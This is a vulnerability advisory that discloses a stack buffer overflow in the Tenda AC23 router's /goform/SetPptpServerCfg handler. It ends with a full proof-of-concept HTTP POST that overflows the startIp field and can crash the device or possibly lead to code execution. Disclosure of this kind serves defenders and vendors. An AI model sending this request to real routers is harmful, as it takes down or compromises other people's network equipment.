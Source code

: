 # Information

**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC23

**Affected firmware version:** <= V16.03.07.52

**Firmware download address:** [AC23 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3889)

# Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC23 router, V16.03.07.52, where an attacker sent a well-crafted http post packet to the request path /goform/SetPptpServerCfg, triggering a denial of service attack or even RCE, specifically via the function sscanf(s, "%[^.].%[^.].%[^.].%s", v10, v11, v12, &v12[8]) because there is no bounds check on s, causing a stack overflow

# Vulnerability details

It can be found that when the serverEn value is 1, it will enter the else branch to call sub_478E94 function

![](img/1.png)

When the startIp and endIp are not empty, the sscanf function causes the buffer to overflow

![](img/2.png)

# POC

```
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

serverEn=1&endIp=aa&startIp=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa
```

![](img/3.png)

![](img/4.png)